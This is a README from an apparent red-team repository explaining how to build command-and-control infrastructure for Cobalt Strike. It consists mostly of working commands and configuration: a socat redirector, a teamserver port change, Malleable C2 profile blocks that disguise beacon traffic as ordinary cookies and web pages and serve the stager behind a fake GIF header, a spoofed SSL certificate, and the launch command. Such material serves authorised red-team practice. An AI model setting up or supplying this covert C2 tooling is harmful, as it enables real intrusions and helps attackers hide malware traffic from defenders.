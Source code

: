 # C2 Infrastructure

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Images/Screen1.png?raw=true)

## Setup Redirector
```
socat TCP4-LISTEN:80,fork TCP4:C2_Server_IP:80
```

## Setup C2 Server (Cobalt Strike)

### Change Default Port
```
sed 's/50050/22222/' teamserver > tmp; mv tmp teamserver
```

### C2 Profiles
```
https://github.com/rsmudge/Malleable-C2-Profiles
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Images/Screen2.png?raw=true)

1- http-get -> client -> metadata
```
metadata {
	base64;
	prepend "skin=noskin;session-token=";
	append ";csm-hit=s-24KU11BB82RZSYGJ3BDK|1419899012996";
	header "Cookie";
}
```

2- http-get -> server -> output
```
output {
	prepend "Hello world!";
	mask;
	print;
}
```

3- http-post -> client -> id
```
id {
	parameter "sn";
}
```

4- http-post -> client -> output
```
output {
	base64;
	print;
}
```

5- http-post -> server -> output
```
output {
	prepend "Hello World!";
	mask;
	print;
}
```

6- http-stager -> server -> output
```
header "Content-Type" "image/gif";
output {
	prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
	prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
	prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
	print;
}
```

7- New ssl certificate
```
https-certificate {
	set O  "dmcjna";
	set CN "dmcjna";
	set validity "365";
}
```

### Test New Profile
C2 Profile Full Example: [Link](https://github.com/hassan0x/RedTeam/blob/main/C2Infrastructure/example.profile)
```
./c2lint example.profile
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Images/Screen3.png?raw=true)

### Run Cobalt Strike
```
./teamserver 8.8.8.8 P@ssw0rd example.profile &
```

### Host Index Page on C2 Server
Index Page Example: [Link](https://github.com/hassan0x/RedTeam/blob/main/C2Infrastructure/index.html)

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Images/Screen4.png?raw=true)
